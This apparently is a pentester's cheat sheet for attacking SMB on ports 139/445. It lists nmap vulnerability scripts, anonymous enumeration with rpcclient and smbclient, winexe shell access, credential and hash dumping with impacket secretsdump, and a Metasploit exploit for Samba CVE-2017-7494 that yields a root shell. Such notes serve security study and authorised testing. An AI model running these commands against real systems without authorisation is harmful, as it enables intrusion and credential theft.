 # Port 139/445 SMB

Basics:
https://www.youtube.com/watch?v=4_QXSIF16lw
Security:
https://www.youtube.com/watch?v=DsSEknNGOr8&list=PLyOlunpO5LG1W1SgFGDUAlCTSz9j9zBax&index=3

## Enumeration
Application:
Version:
Domain/workgroup name:
Domain-sid:
Allows unauthenticated login:

- ### nmap script scan

	  nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse -p 139,445

- **scripts**
  
    smb-brute.nse
    smb-double-pulsar-backdoor.nse
	smb-enum-domains.nse
	smb-enum-groups.nse
	smb-enum-processes.nse
	smb-enum-services.nse
	smb-enum-sessions.nse
	smb-enum-shares.nse
	smb-enum-users.nse
	smb-flood.nse
	smb-ls.nse
	smb-mbenum.nse
	smb-os-discovery.nse
	smb-print-text.nse
	smb-protocols.nse
	smb-psexec.nse
	smb-security-mode.nse
	smb-server-stats.nse
	smb-system-info.nse
	smb-vuln-conficker.nse
	smb-vuln-cve-2017-7494.nse
	smb-vuln-cve2009-3103.nse
	smb-vuln-ms06-025.nse
	smb-vuln-ms07-029.nse
	smb-vuln-ms08-067.nse
	smb-vuln-ms10-054.nse
	smb-vuln-ms10-061.nse
	smb-vuln-ms17-010.nse
	smb-vuln-regsvc-dos.nse
	smb2-capabilities.nse
	smb2-security-mode.nse
	smb2-time.nse
	smb2-vuln-uptime.nse
	
- **enum4linux scan**
	https://highon.coffee/blog/enum4linux-cheat-sheet/

	  enum4linux -a <target_address>

- **enum w/ rpcclient guest (port 139)**

	```bash
	# from cli
	rpcclient -U ""
  
	#from rpcclient
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall
	```
- **wineexe log in with shell**
  	winexe -U username // "cmd.exe" --system

- **NTDS.DIT**
  Contains the local Active Directory database where all directories are stored. 

  This file can be lucrative for an attacker because it contains all the Active Directory credentials. 

  Often obtainable if SMB vulnerabilities are present on the system.
  
## smbclient

- List Shares w/ Anonymous Access
    
	  smbclient -N -L \\\\<target_address>\\
    
- Access Share w/ Anonymous Access
    
	  smbclient -N \\\\<target_address>\\<target_share>

- List shares w/ Username/Password Access

	  smbclient -L \\\\<target_address>\\ -U user

- Access Share w/ Username/Password

	  smbclient \\\\<target_address>\\<target_share> -U user

## Lateral Movement with Windows SMB Shares

- The following video explains how an attacker can exploit SMB Admin 
Shares in order to gain access to other systems on the network: 

  https://www.youtube.com/watch?v=41MUhlHGZ4E 

## Get secrets (hashes, plaintext credentials, keys, etc)

- impacket

  /usr/share/doc/python3-impacket/examples/secretsdump.py
  https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b 

	  python3 secretsdump.py [[domain/]username[:password]@]<targetname or address>

  or
  
	  python3 secretsdump.py LOCAL
	  
  What we would be looking for is a misconfigured service that was set as domain admin. From here, we could use those credentials and Impacket’s **crackmapexec.py** script with the option **rid-brute** or **GetADUsers.py** script to query the Domain Controller and obtain all the usernames and hashes on the network. We would then run the script against the list of usernames/hashes to grab as many credentials as possible. 
  
## Download files

- Get
    
    ```bash
	# from smb
    \> get <target_file>
    ```

## Samba

- Get root shell with versions 3.5.0 to 4.6.4, 4.5.10, and 4.4.14: cve-2017-7494
    
  (Step 1. Attacker msfconsole)
    
    ```bash
    #from cli	
    service postgresql start
    sudo msfdb init
    msfconsole
    
    # from metasploit console: msf>
    use exploit/linux/samba/is_known_pipename
    exploit(linux/samba/is_known_pipename)> set rhost <target_address>
    exploit(linux/samba/is_known_pipename)> exploit
    ```
    
  (Step 2. Victim cli)
    
    ```bash
    whoami
    python -c ‘import pty; pty.spawn("/bin/bash")’
    ```